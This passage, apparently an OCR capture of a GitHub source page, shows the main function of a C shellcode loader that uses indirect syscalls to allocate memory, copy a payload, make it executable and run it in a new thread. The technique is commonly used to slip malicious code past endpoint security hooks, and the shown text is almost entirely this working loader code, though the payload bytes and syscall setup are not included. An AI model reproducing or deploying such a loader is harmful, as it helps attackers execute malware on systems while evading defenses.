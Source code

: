 ### **Main Function**


```
int main() {

	NTSTATUS	STATUS		= NULL;
	PVOID		pAddress	= NULL;
	SIZE_T		sSize		= sizeof(Payload);
	DWORD		dwOld		= NULL;
	HANDLE		hProcess	= (HANDLE)-1,	// local process
		        hThread		= NULL;



	// initializing the used syscalls
	if (!InitializeNtSyscalls()) {
		printf("[!] Failed To Initialize The Specified Indirect-Syscalls \n");
		return -1;
	}


	// allocating memory
	SET_SYSCALL(g_Nt.NtAllocateVirtualMemory);
	if ((STATUS = RunSyscall(hProcess, &pAddress, 0, &sSize, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)) != 0x00 || pAddress == NULL) {
		printf("[!] NtAllocateVirtualMemory Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	// copying the payload
	memcpy(pAddress, Payload, sizeof(Payload));
	sSize = sizeof(Payload);


	// changing memory protection
	SET_SYSCALL(g_Nt.NtProtectVirtualMemory);
	if ((STATUS = RunSyscall(hProcess, &pAddress, &sSize, PAGE_EXECUTE_READ, &dwOld)) != 0x00) {
		printf("[!] NtProtectVirtualMemory Failed With Status : 0x%0.8X\n", STATUS);
		return -1;
	}


	// executing the payload
	SET_SYSCALL(g_Nt.NtCreateThreadEx);
	if ((STATUS = RunSyscall(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pAddress, NULL, FALSE, NULL, NULL, NULL, NULL)) != 0x00) {
		printf("[!] NtCreateThreadEx Failed With Status : 0x%0.8X\n", STATUS);
		return -1;
	}


	// waiting for the payload
	SET_SYSCALL(g_Nt.NtWaitForSingleObject);
	if ((STATUS = RunSyscall(hThread, FALSE, NULL)) != 0x00) {
		printf("[!] NtWaitForSingleObject Failed With Error: 0x%0.8X \n", STATUS);
		return -1;
	}


	printf("[#] Press <Enter> To Quit ... ");
	getchar();

```